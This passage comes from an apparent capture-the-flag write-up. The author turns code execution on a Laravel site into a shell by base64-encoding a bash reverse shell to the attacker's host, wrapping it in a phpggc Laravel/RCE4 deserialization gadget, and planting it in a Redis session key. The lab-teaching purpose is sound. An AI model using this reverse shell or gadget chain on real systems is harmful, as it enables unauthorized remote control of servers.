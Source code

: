 Now when I refresh that login page again:

![image-20220629133839361](https://0xdfimages.gitlab.io/img/image-20220629133839361.png)

RCE!

#### Shell

I’ll base64-encode a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) adding a couple extra
spaces to get rid of `/` and `=` characters):

    
    
    oxdf@hacky$ echo "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 " | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK
    

I don’t need the `bash -c '[payload]'` because I’m going to pipe it into
`bash` after decoding.

I’ll encode that into a PHP object:

    
    
    oxdf@hacky$ /opt/phpggc/phpggc -a Laravel/RCE4 system "echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash"
    O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash";}
    

I’ll re-poison the `.env` file, and refresh the page to get a session in
Redis:

    
    
    10.10.14.6:6379> keys *
    1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    

I’ll update it to the payload:

    
    
    10.10.14.6:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash";}'
    Invalid argument(s)
    

It fails, because there a `'` in the payload and wrapping the full thing. I’ll
go back and escape the `'` with a `\`. Now it works:

    
    
    10.10.14.6:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo \'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK\'|base64 -d|bash";}'
    OK
    